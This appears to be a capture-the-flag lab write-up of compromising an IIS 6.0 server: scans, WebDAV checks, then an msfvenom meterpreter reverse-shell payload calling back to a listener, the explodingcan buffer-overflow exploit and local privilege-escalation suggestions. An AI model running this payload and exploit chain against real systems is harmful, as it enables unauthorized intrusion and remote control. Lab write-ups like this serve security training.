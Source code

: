 ## Nmap Port Scanning
- <mark>Basic Scan </mark>
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -T4 10.10.10.14 -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 13:07 EDT
Nmap scan report for 10.10.10.14
Host is up (0.024s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.77 seconds
```
- <mark>More Specific Scan Targeting Port 80</mark>
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -sC -T4 10.10.10.14 -p 80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 13:10 EDT
Nmap scan report for 10.10.10.14
Host is up (0.023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Date: Mon, 11 Sep 2023 17:10:16 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.57 seconds
```
#### 80/tcp open Microsoft IIS httpd 6.0
- According to nmap scan, the webserver has potentially WebDAV enabled. Let's run davtest to confirm what file extension is allowed to be uploaded.
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ davtest --url http://10.10.10.14 -cleanup
	********************************************************
	 Testing DAV connection
	OPEN            SUCCEED:                http://10.10.10.14
	********************************************************
	NOTE    Random string for this session: y6IivO
	********************************************************
	 Creating directory
	MKCOL           FAIL
	********************************************************
	 Sending test files
	PUT     cgi     FAIL
	PUT     html    FAIL
	PUT     txt     FAIL
	PUT     jsp     FAIL
	PUT     aspx    FAIL
	PUT     shtml   FAIL
	PUT     cfm     FAIL
	PUT     pl      FAIL
	PUT     php     FAIL
	PUT     asp     FAIL
	PUT     jhtml   FAIL
	********************************************************
	 Cleaning up
	
	********************************************************
	/usr/bin/davtest Summary:
	```
	- Unfortunately, it seems that nothing is enabled.
- <mark>Directory Brute-Forcing</mark>
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
		=============================================================== 
		Gobuster v3.0.1 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) 
		=============================================================== 
		[+] Url: http://10.10.10.14 
		[+] Threads: 10 
		[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
		[+] Status codes: 200,204,301,302,307,401,403 
		[+] User Agent: gobuster/3.0.1 
		[+] Timeout: 10s 
		=============================================================== 
		2020/05/27 16:01:06 Starting gobuster 
		=============================================================== 
		/images (Status: 301) 
		/_private (Status: 403) 
		===============================================================
		2020/05/27 16:03:19 Finished 
		===============================================================
	```
	- Unfortunately, directory brute-forcing also reveals nothing interesting.
- Since Microsoft IIS httpd 6.0 is old, we should check whether there is any inherent vulnerability to the web server itself.
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ searchsploit iis 6.0
		Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow| windows/remote/41738.py
	```
	- `searchsploit` reveals one exploit that can be of potential entry-point. However, the above python code is a mere PoC and has a strict condition to work. However, with a little bit more research, one can find another script at `https://github.com/danigargu/explodingcan` that works given any proper shell code.
	- It turns out one has to figure out the IIS path length by brute-forcing for the buffer overflow to work and the PoC from `searchsploit` has hard-coded length.
- <mark>Exploitation</mark>
	- Set up listener with `msfconsole` and run the script to receive a meterpreter shell.
	```bash
	# According to the README of the script, the shellcode must be in alphanumeric format due to the limitations of the bug. One can use `msfvenom` (metasploit) with the `alpha_mixed` encoder.
	# payload generation
	msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.16 LPORT=4444 > shellcode
	# Exploitation
	python2 explodingcan.py http://10.10.10.14 shellcode
	```
- <mark>Post-Exploitation</mark>
```bash
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 184 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41

# Escalation  
exploit/windows/local/ms10_015_kitrap0d
```